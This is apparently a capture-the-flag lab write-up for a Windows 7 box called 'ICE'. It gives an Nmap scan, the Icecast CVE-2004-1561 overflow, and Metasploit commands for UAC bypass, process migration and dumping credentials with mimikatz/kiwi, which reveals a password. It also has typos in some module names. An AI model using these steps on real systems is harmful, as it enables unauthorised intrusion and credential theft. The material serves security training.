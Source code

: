 # ICE 

# IP - 10.10.110.47

# Nmap Scan

```
Host is up (0.17s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2020-04-07T06:21:11+00:00; +1m26s from scanner time.
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http         Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h16m26s, deviation: 2h30m00s, median: 1m25s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:65:e9:6e:54:2a (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-04-07T01:20:56-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-07T06:20:55
|_  start_date: 2020-04-07T06:15:25
```
# Vulnerabilities

```1.**Icecast** -Execute Code overflow - CVE 2004-1561```

# priv-esc using Metasploit

``` run post/mutli/recon/local_exploit_suggestor``` 

## We found - ``` exploit/windows/local/bypassuac_eventvwr```

# Loading mimikartz - ```load kiwi```

## Migrate into - spoolsv.exe
```migrate spoolsv.exe```


# Passwords found using Kiwi - ```creds_all```

```Password -DARK - Password01!```

# Exploit_db Script fpr Icecast 

## link - ``` https://exploit-db.com/exploits/568```

